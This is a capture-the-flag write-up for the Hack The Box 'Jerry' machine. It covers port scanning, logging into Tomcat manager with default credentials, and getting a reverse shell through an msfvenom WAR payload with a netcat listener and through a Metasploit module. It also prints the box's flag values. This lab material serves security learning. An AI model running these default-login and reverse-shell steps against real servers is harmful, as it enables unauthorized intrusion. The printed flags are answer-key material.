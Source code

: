 # hackthebox jerry writeup

[link to the box](https://app.hackthebox.com/machines/Jerry)

1. [scanning](#scanning)
2. [getting-manager](#getting-manager)
3. [exploiting](#exploiting)
   1. [msfvenom](#msfvenom)
   2. [msfconsole](#msfconsole)
4. [pwning](#pwning)


# scanning

scan the target for open ports:

this box has a static ip of 10.10.10.95

`$ nmap -sV 10.10.10.95`

nets us nothing, try treating host as online

`$ nmap -Pn -sV 10.10.10.95`

gives us the following output:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

# getting-manager

this looks like a webpage that we can try to visit. lets connect to it!

http://10.10.10.95:8080/

![tomcat homepage](img/tomcat-home.png)

the fancy tomcat looks like it has a manager portal. lets try accessing it with some common usernames and passwords:

`root:root root:toor admin:password admin:1234`

...none of which work, obvoiusly. we do get to see a nice 'access denied' webpage though.

![access denied](img/access-denied.png)

which happens to highlight a default username and password for tomcat, `tomcat:s3cret`. lets try it.

![tomcat manager panel](img/tomcat-manager.png)

and we have access to manager now! what a dumb way to get to it. from manager, we are able to upload our own `.WAR` files to the server. upon further research, these can be executed and therefore used to create a reverse shell! lets explore the 3 methods we have at our disposal for this.

# exploiting


## msfvenom

an easy way to get a reverse shell would be to use `msfvenom` to create a payload that we deploy manually on the server. here is a short walkthrough:

use `msfvenom` to create payload using the command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your local ip> LPORT=<any sane port> -f war > jsp-shell-reverse-tcp.war`

you can get `<my local ip>` on most linux distributions by running `ip addr list | grep "tun"` and finding the local ip next to `inet` (ignoring subnet mask). you need the local ip since the vpn into hackthebox puts you on the machine's local network.

once the payload has been created, start netcat to recieve the reverse shell.

`nc -lvp <previously chosen sane port>`

upload the payload through the manager webportal, then click on its file in the 'applications' table.

congrats! you now have a reverse shell.

## msfconsole

the simplest and most abstract method would be to use `exploit/multi/http/tomcat_mgr_upload` in `msfconsole` to create our reverse shell. here is a short walkthrough:

```
$ msfconsole
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 payload(...) > options
msf6 payload(...) > set RHOSTS 10.10.10.95
msf6 payload(...) > set RPORT 8080
msf6 payload(...) > set HttpUsername tomcat
msf6 payload(...) > set HttpPassword s3cret
msf6 payload(...) > set LHOST <my local ip>
msf6 payload(...) > set LPORT <any sane port>
msf6 payload(...) > exploit
```

you can get `<my local ip>` on most linux distributions by running `ip addr list | grep "tun"` and finding the local ip next to `inet` (ignoring subnet mask). you need the local ip since the vpn into hackthebox puts you on the machine's local network.

congrats! you now have a reverse shell on the target machine.

# pwning

since we are now properly in a windows shell, we can start looking around for flags.

(if you are in an meterpreter shell, run `shell` to open cmd)

first, run `whoami` to see what permissions we have.

![we are root](img/whoami.png)

oh. we are administraror. no escalation needs to occur.

now lets search for the flags then!

search the system for flag files:

```
cd ..              # get to root of disk
where /r c: *flag* # nothing
where /r c: *.txt  # something!
```

using `where` in windows, we are able to find `c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"`!

use `type` to print the contents of the file

```
type c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

there is the solution.
